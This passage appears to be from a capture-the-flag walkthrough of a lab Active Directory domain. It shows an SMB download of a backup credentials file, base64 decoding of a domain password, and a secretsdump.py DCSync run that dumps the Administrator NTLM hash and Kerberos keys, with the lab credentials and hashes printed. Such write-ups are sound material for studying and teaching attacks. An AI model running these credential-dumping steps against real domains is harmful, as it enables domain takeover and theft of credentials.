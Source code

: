 

```shell
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr  5 00:38:39 2020
  ..                                  D        0  Sun Apr  5 00:38:39 2020
  backup_credentials.txt              A       48  Sun Apr  5 00:38:53 2020
n   
		8247551 blocks of size 4096. 3649885 blocks available
smb: \> mget backup_credentials.txt 
Get file backup_credentials.txt? y
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> exit
```

- it got the base64 encoded credentials , we can decrypt with the in build kali tool ...

```shell
$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw 
$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d                                          
backup@spookysec.local:backup2517860 
```

## <span style="color: orange;"><b># Elevating Privileges within the Domain</b></span>

According to the creator, the backup account has a special privilege that enables any changes made in Active Directory to be synchronized with this user account. Hashes of passwords are part of this. To dump password hashes, we'll use `secretsdump.py`, one of the impacket utilities.

```shell
python3 secretsdump.py --help  # you can find information about method allowed to dump NTD.DIT
```
Let’s dump the hash of the adminstrator account as this has the highest privileges. We can dump all hashes but that will be overkill. Type in the following command

```shell
python3 secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
```
```shell
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
[*] Cleaning up... 
```
